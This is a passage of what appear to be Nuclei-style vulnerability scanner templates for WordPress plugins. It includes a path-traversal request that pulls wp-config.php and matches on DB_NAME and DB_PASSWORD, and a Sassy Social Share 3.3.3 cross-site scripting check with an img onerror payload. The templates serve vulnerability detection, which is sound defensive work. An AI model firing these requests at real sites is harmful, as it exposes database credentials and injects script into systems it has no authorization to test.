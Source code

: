 - {{BaseURL}}/wp-content/force-download.php?file=../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# Sassy Social Share \<=3.3.3 - Cross-Site Scripting

## Description

- WordPress Sassy Social Share 3.3.3 and prior is vulnerable to cross-site scripting because certain AJAX endpoints return JSON data with no Content-Type header set and then use the default text/html. In other words, any JSON that has HTML will be rendered as such.

- severity - medium
- tags - xss,wp,wpscan,wordpress,wp-plugin,sassy

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=heateor_sss_sharing_count&urls[%3Cimg%20src%3dx%20onerror%3dalert(document.domain)%3E]=

### Matchers

**Type - word**

- part - body
- words
  1. [{"\<img src=x onerror=alert(document.domain)>":""}]
  2. facebook
  3. twitter
- condition - and

**Type - word**

- part - header
- words
  1. application/json
- negative - True
